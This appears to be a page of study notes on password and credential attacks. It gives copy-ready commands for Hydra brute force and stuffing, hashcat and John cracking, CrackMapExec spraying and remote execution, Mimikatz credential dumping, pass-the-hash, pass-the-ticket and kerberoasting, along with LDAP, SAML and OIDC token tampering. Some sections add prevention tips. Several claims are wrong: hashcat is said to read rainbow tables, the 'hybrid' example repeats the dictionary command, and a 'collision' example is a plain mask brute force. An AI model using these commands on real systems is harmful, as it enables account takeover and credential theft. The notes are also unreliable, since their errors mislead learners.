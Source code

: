 ## Core Lessons & Techniques

### 1. Password Attacks
#### Brute-Force
- **Definition:** Try every combination until the correct one is found  
- **Tool:** Hydra  
- **Command Example:**
  ```bash
  hydra -l jkelly -x 4:8:abcdefghijklmnopqrstuvwxyz1234567890 \
        ssh://192.168.1.100
```
- `-l jkelly` = username
- `-x 4:8:…` = password length 4–8, allowed chars

#### Dictionary
- **Definition:** Use wordlists of common passwords
- **Tool:** John the Ripper
- **Command Example:**
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt \
         --rules --format=raw-md5 hash_file.txt
    ```

#### Hybrid
- **Definition:** Dictionary + brute-force mutations
- **Command Example:**
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt \
         --rules --format=raw-md5 samplehashfile.txt
    ```

#### Rainbow-Table

- **Definition:** Precomputed hash→plaintext lookup
- **Tool:** Hashcat
- **Command Example:**
    ```bash
    hashcat -m 0 -a 0 -o cracked.txt hashes.txt \
             /usr/share/rainbow-tables/rockyou.hctab
    ```

---

### 2. Credential Attacks

#### Password Spraying

- **Definition:** Try one common password against many accounts
- **Tool:** CrackMapExec
- **Command Example:**
    ```bash
    crackmapexec smb 192.168.1.0/24 \
      -u users.txt -p 'Summer2024!'
    ```

#### Password Masking
- **Definition:** Mask-based attack fitting known password patterns
- **Tool:** Hashcat
- **Command Example:**
    ```bash
    hashcat -a 3 -m 0 hashfile.txt \
      '?u?l?l?l?l?d?d?s'
    ```

#### Credential Stuffing

- **Definition:** Replay breached username/password pairs
- **Tool:** Hydra
- **Command Example:**
    ```bash
    hydra -L usernames.txt -P passwords.txt \
          http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
    ```

#### MFA Fatigue

- **Definition:** Flood user with MFA prompts until they approve
- **Prevention:**
    - Use push-binding MFA (only one prompt per login)
    - Train users to deny unexpected prompts

---

### 3. Credential-Passing Attacks

#### Pass-the-Hash
- **Definition:** Use NTLM hash in place of password
- **Tool:** Mimikatz + CrackMapExec
- **Commands:**
    ```powershell
    # Extract hashes
    mimikatz # sekurlsa::logonpasswords
    # Use hash to authenticate
    crackmapexec smb 10.0.0.5 -u '' -H aad3b435b51404eeaad3b435b51404ee
    ```

#### Pass-the-Ticket
- **Definition:** Reuse Kerberos TGTs/TGSs for SSO
- **Tools:** Mimikatz + Impacket
- **Commands:**
    ```powershell
    # Export tickets
    mimikatz # kerberos::list /export
    # Impacket psexec with ticket
    psexec.py -k -no-pass DOMAIN/user@10.0.0.5
    ```

#### Pass-the-Token
- **Definition:** Steal and reuse JWT/OAuth tokens
- **Usage:**
````http
    GET /api/data HTTP/1.1
    Host: example.com
    Authorization: Bearer <stolen_JWT_token>
````

---
### 4. Directory Service Attacks

#### Kerberos
- **Kerberoasting:** Crack service account hashes offline
- **Tool:** Rubeus or Mimikatz + Hashcat
- **Command Example (Rubeus):**
    ```powershell
    Rubeus kerberoast /outfile:kerberoast_hashes.txt
    ```
- **Prevention:** Strong service‐account passwords, AS‐REP hardening

#### LDAP Injection

- **Definition:** Inject malicious filter into LDAP queries
- **Example:**
    ```ldap
    (&(uid=*)(!(uid=*)(|(uid=*)(pthread*))))
    ```
- **Prevention:** Input validation, parameterized LDAP calls

---

### 5. Automated Attack Frameworks

#### CrackMapExec (CME)
- **Functions:** SMB auth, hash/ ticket relay, command exec
- **Example Commands:**
    ```bash
    # Validate creds across network
    cme smb 192.168.1.0/24 -u users.txt -p passwords.txt
    
    # Execute ipconfig remotely
    cme smb 10.0.0.5 -u 'admin' -p 'P@ssw0rd' -x 'ipconfig'
    ```

> CrackMapExec is not actively maintained anymore so highly suggested to use Rubeus instead in the future

#### SAML Attacks
- Application to enable single sign on aka SSO's
- **Token Manipulation:** Modify `<Attribute>` in SAML assertion
	- **Tool:** SAML Raider (Burp extension)
- **SAML Replay Attack:** Intercept SAML response and reuse for access.
- **SAML Injection Attacks**: Exploit vulns in app that process SAML tokens.
    1. Edit `<saml:Attribute Name="Role">user</…>` → `admin`
    2. Re-sign and forward
- **Prevention**:
	- Always validate and sanitize user inputs & SAML tokens
	- Use parameterized queries
	- Enforce strict XML schema validation
	- Ensure token's short lifetimes & reject accepted tokens

#### OpenID Connect (OIDC) Attacks
- Based on OAuth 2.0 protocol to verify the identify of end users & (SSO)
- **ID Token Maniplulation:** Flip `"admin":false` → `"admin":true`
- **Tool:** Burp + custom JWT editor
- **Prevention:**
    - Verify token signature with OP’s public key
    - Check nonce, `aud` and `exp` claims
- **ID Token Replay Attack**: Captures token to reuse the token for access
- **ID Token injection**: Exploit vulns in app that process the tokens itself

- **WebFinger Service**: Gather information about users or resources
	- Common endpoints: `.well-known/webfinger`
	- **Prevention**: restrict access to these endpoints & monitor queries

- **SSRF via Dynamic Client Registration**: basically conduct an SSRF by manipulating registration requests to cause the server to give out data.

---

### 6. Hash-Based Attacks

#### Collision (Birthday) Attacks
- **Definition:** Find two inputs with same hash
- **Tool:** Hashcat
- **Example:**
    ```bash
    hashcat -m 0 -a 3 -o collisions.txt hash.txt '?a?a?a?a?a'
    ```

#### Strengthening Hash Storage
- **Salting:** Unique per-user random salt →
    ```python
    salted = salt + password
    hash = PBKDF2(salted, iterations=100_000)
    ```
- **Key Stretching:** Used to enhance hash security and time to compute it
	- **Examples**: PBKDF2 / bcrypt / scrypt for CPU hardness

